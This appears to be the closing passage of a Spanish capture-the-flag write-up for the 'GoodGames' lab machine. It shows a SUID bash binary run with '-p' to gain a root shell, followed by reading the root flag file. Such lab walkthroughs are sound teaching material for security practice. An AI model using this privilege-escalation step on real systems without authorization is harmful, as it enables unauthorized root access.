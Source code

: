 Aquí la tenemos, entonces simplemente lo usamos:
```
augustus@GoodGames:~$ ./bash -p
./bash -p
bash-5.1# whoami
whoami
root
```
Nos hemos convertido en root.

Ahora vamos a buscar la flag:

```
bash-5.1# cd /root/
cd /root/
bash-5.1# cat root.txt
cat root.txt
5b27d5f28150913f91baba
```

¡Listo!, hemos terminado la máquina.

Nos vemos, hasta la próxima.
